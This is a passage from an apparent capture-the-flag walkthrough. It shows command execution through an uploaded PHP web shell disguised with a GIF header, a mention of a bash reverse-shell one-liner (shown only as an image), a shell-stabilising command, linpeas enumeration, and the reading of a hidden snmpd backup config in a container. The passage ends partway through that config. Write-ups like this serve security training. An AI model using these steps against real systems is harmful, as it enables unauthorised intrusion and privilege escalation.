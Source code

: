 Now i can access it quite better but stil i'd love a reverse shell

```
└─$ ./rce.sh
To exit kindly use CTRL + C
Shell>> ls
GIF87a

lol.php

Shell>> id
GIF87a

uid=33(www-data) gid=33(www-data) groups=33(www-data)

Shell>> 
```

Using a bash one linear command i'll get a reverse shell
![image](https://user-images.githubusercontent.com/113513376/218577440-ec11d3e3-2bc1-42d3-9360-64bb10a9ed5a.png)

Stabilizing the shell

```
/usr/bin/script -qc /bin/bash /dev/null
```

We know that this is a docker container from running hostname

I uploaded linpeas.sh & ran it. Saw this interesting file

```
╔══════════╣ All hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rwxr--r-- 1 root root 7340 Dec  9  2020 /var/backups/.snmpd.conf                                             
-rw-r--r-- 1 www-data www-data 8196 Dec  9  2020 /var/www/html/dev/.DS_Store
-rw-r--r-- 1 root root 6961 Nov 18  2020 /usr/local/lib/php/.filemap
-rw-r--r-- 1 root root 0 Nov 18  2020 /usr/local/lib/php/.lock
-rw------- 1 root root 0 Nov 17  2020 /etc/.pwd.lock
-rw-r--r-- 1 root root 220 Apr 18  2019 /etc/skel/.bash_logout
```

```
/var/backups/.snmpd.conf   
```

Viewing the content shows this

```
www-data@a7c367c2113d:/var/backups$ cat /var/backups/.snmpd.conf   
###############################################################################
#
# EXAMPLE.conf:
#   An example configuration file for configuring the Net-SNMP agent ('snmpd')
#   See the 'snmpd.conf(5)' man page for details
#
#  Some entries are deliberately commented out, and will need to be explicitly activated
#
###############################################################################
#
#  AGENT BEHAVIOUR
#

#  Listen for connections from the local system only
agentAddress  udp:0.0.0.0:161
#  Listen for connections on all interfaces (both IPv4 *and* IPv6)
#agentAddress udp:161,udp6:[::1]:161


```